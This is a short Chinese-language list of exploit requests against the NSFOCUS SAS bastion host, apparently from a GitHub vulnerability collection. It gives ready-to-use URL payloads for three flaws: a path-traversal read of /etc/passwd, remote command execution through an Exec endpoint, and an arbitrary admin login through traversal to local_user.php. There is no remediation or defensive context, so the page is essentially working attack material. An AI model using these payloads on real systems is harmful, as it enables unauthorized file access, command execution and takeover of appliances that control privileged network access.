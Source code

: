 ## 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞
  通过漏洞包含 www/local_user.php 实现任意⽤户登录

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

## 绿盟 SAS堡垒机 Exec 远程命令执行漏洞

```
/webconf/Exec/index?cmd=whoami
```

## 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞

```
/api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin
```
